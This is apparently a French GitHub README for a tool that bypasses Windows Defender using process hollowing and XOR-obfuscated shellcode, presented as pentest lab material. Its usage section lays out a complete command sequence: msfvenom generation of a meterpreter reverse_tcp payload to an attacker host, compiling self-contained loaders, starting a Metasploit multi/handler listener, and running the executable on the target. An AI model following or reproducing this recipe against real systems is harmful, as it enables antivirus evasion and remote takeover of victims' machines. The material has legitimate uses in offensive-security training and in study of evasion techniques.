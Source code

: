 Scripts permettant de contourner la protection antivirale de Windows Defender via la technique de Process Hollowing avec une injection de shellcode préalablement obfusqué avec un fonction XOR.



Ces derniers ont été utilisés dans un lab d'entrainement au pentest et ne sont pas prévus pour être utilisés en dehors de ce cadre.



<p align="center">
    Ma vidéo sur le sujet : <a href="https://youtu.be/CTkbSiOBi58"><strong>https://youtu.be/CTkbSiOBi58</strong></a>
  </p>



<h3 align="center">Bypass-AV-ProcessHollowing</h3>

  <p align="center">
    Ce projet est basé sur le dépôt Github de chvancooten :
    <br />
    <a href="https://github.com/chvancooten/OSEP-Code-Snippets"><strong>https://github.com/chvancooten/OSEP-Code-Snippets</strong></a>
  </p>
</div>







### Utilisation

1. Générer un meterpreter Metasploit sous la forme d'un shellcode avec msfvenom :
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<SERVER> LPORT=<PORT> -f csharp
```
2. Créer un nouveau projet DotNet dans Visual Studio Code :
```  
dotnet new console
```
3. Remplacer le contenu de Program.cs par le contenu du fichier XorCipher.cs et remplacer le shellcode par celui généré avec msfvenom
4. Générer la solution sous la forme d'un fichier PE avec ses librairies embarquée :
```
dotnet publish -p:PublishSingleFile=true -r win-x64 -c Release --self-contained true -p:PublishTrimmed=true
```
5. Exécuter le fichier compilé dans une invite de commande :
```
.\XorCipher.exe
```
6. Créer un second projet DotNet dans une autre instance de Visual Studio Code :
```
dotnet new console
```
7. Remplacer le contenu de Program.cs par le contenu du fichier ProcessHollowing.cs et remplacer le shellcode par celui généré avec XorCipher.exe
8. Générer la solution sous la forme d'un fichier PE avec ses librairies embarquée :
```
dotnet publish -p:PublishSingleFile=true -r win-x64 -c Release --self-contained true -p:PublishTrimmed=true
```
9. Lancer un listener dans la console metasploit :
```
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost <SERVER>
set lport <PORT>
exploit
```
10. Exécuter le fichier ProcessHollowing.exe sur le poste cible puis savourer un délicieux cookie aux pépites de chocolat :)
